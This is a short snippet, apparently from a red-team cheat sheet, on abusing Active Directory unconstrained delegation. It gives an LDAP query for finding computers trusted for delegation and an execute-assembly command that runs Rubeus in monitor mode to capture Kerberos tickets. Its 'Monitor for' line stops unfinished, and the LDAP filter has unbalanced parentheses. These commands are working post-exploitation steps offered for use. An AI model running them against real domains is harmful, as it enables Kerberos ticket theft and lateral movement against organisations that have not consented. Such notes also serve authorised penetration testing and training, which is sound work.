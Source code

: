 
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Monitor for 
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
```